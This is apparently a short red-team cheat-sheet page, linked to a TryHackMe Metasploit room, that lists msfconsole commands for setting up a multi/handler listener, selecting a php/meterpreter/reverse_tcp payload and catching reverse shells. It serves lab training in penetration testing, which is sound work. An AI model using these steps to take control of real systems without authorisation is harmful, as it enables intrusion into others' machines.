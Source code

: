 # msfhandler

[![metasploitexploitation](../../../../../_badges/thmp/metasploitexploitation.svg)](https://tryhackme.com/room/metasploitexploitation)

<div class="row row-cols-lg-2"><div>

The msfconsole can be used to catch reverse shells. Some reverse shell may be upgradable to a [meterpreter](../index.md#meterpreter), which is the main goal.

* First, load the exploit, and define LHOST/LPORT 

```shell!
$ msfconsole -q
msf6> use multi/handler
msf6> setg LHOST tun0
msf6> setg LPORT 4444
```

* Select the payload that would be appropriate

```shell!
msf6> # warning, payload must match your client
msf6> set PAYLOAD php/meterpreter/reverse_tcp
msf6> grep meterpreter show payloads
msf6> grep reverse_tcp grep Linux show payloads
```
</div><div>

* Run the catcher, and wait for incoming connections.

```shell!
msf6> run         # Wait for clients
meterpreter> help # See what you can do
```

➡️ Your shell may not be a meterpreter, so you may try to [upgrade it](../index.md#meterpreter).

📚 Refer to [msfvenom](/cybersecurity/red-team/tools/frameworks/metasploit/msfvenom.md) to find payloads.
</div></div>